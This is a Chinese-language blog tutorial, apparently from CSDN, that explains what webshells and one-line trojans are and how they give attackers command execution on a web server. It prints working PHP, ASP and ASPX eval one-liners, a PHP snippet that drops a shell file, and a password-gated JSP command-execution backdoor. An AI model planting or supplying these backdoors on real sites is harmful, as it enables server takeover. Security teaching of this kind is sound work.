> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [blog.csdn.net](https://blog.csdn.net/qq_36119192/article/details/84563791)

**目录**

[Webshell(大马)](#t0 "Webshell(大马)")

[一句话木马 (小马)](#t1 "一句话木马(小马)")

[一句话木马原理](#t2 "一句话木马原理 ") 

[一句话木马的变形](#t3 "一句话木马的变形")

[JSP 后门脚本](#t4 "JSP后门脚本")

### Webshell(大马)

我们经常会看到 Webshell，那么，到底什么是 Webshell 呢？

**webshell** 就是以 asp、aspx、php、jsp 或者 cgi 等网页文件形式存在的一种**命令执行环境**，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将 asp、aspx、php 或 jsp 后门文件与网站 web 服务器目录下正常的网页文件混在一起，然后就可以使用浏览器来访问该后门文件了，从而得到一个命令执行环境，以达到控制网站服务器的目的。

顾名思义，“web” 的含义是显然需要服务器开放 web 服务，“shell” 的含义是取得对服务器某种程度上的操作权限。webshell 常常被称为入侵者通过网站端口对网站服务器的某种程度上操作的**权限**。由于 webshell 其大多是以动态脚本的形式出现，也有人称之为网站的后门工具。

一方面，webshell 被站长常常用于网站管理、服务器管理等等，根据 FSO 权限的不同，作用有在线编辑网页脚本、上传下载文件、查看数据库、执行任意程序命令等。

另一方面，被入侵者利用，从而达到控制网站服务器的目的。这些网页脚本常称为 Web 脚本木马，比较流行的 asp 或 php 木马，也有基于. NET 的脚本木马与 JSP 脚本木马。

但是这里所说的木马都是些体积 “庞大” 的木马，也就是黑客中常称呼的 "大马"。

### 一句话木马 (小马)

因为上面所介绍 webshell 概念中提到的大马在现阶段的安全领域中已经被盯的非常紧了，而且各种杀毒软件和防火墙软件都对这种 “大马” 有了甄别能力，所以如果被渗透的 web 服务器中安装了防御软件的话，留下这种大马作为自己的 webshell 就非常困难了，于是一种新型的 webshell 就横空出世了，那就是一句话木马。

简单来说一句话木马就是通过向服务端提交一句简短的代码来达到向服务器插入木马并最终获得 webshell 的方法。对于不同的语言有不同的构造方法，基本构造是首先出现的是脚本开始的标记，后边跟着的 eval 或者是 execute 是核心部分，就是获取并执行后边得到的内容，而后边得到的内容，是 request 或者是 $_POST 获取的值。如果我们通过客户端向服务器发送，那么就会让服务器执行我们发送的脚本，挂马就实现了。

一些不同脚本语言的一句话木马

```
php一句话木马：  <?php @eval($_POST[value]); ?>
asp一句话木马：  <%eval request ("value")%> 或  <% execute(request("value")) %>   
aspx一句话木马： <%@ Page Language="Jscript" %> <% eval(Request.Item["value"]) %>
 
<?php fputs( fopen('xie.php','w') , '<? php eval($_POST[xie]) ?>' ) ; ?>
将当前目录下创建xie.php文件，并且将一句话木马写入xd.php中
```

#### 一句话木马原理 

拿 php 的一句话木马说明一下原理：

在 PHP 脚本语言中，eval(code) 的功能是将 code 组合成 php 指令，然后将指令执行，其他语言中也是使用此原理，只是函数可能不同。

```
<%
    if("b".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```
